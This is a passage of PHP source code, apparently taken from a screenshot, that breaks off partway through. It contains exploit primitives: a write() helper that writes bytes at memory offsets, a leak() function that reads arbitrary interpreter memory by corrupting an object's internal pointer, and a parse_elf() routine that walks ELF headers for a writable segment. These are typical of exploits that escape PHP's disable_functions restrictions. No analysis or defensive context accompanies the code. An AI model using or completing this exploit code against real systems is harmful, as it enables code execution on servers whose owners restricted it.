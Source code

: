 ```php
 

  function write(&$str, $p, $v, $n = 8) {

​    $i = 0;

​    for($i = 0; $i < $n; $i++) {

​      $str[$p + $i] = sprintf('%c',$v & 0xff);

​      $v >>= 8;

​    }

  }

 

  function leak($addr, $p = 0, $s = 8) {

​    global $abc, $helper;

​    write($abc, 0x68, $addr + $p - 0x10);

​    $leak = strlen($helper->a);

​    if($s != 8) { $leak %= 2 << ($s * 8) - 1; }

​    return $leak;

  }

 

  function parse_elf($base) {

​    $e_type = leak($base, 0x10, 2);

 

​    $e_phoff = leak($base, 0x20);

​    $e_phentsize = leak($base, 0x36, 2);

​    $e_phnum = leak($base, 0x38, 2);

 

​    for($i = 0; $i < $e_phnum; $i++) {

​      $header = $base + $e_phoff + $i * $e_phentsize;

​      $p_type  = leak($header, 0, 4);

​      $p_flags = leak($header, 4, 4);

​      $p_vaddr = leak($header, 0x10);

​      $p_memsz = leak($header, 0x28);

 

​      if($p_type == 1 && $p_flags == 6) { # PT_LOAD, PF_Read_Write
```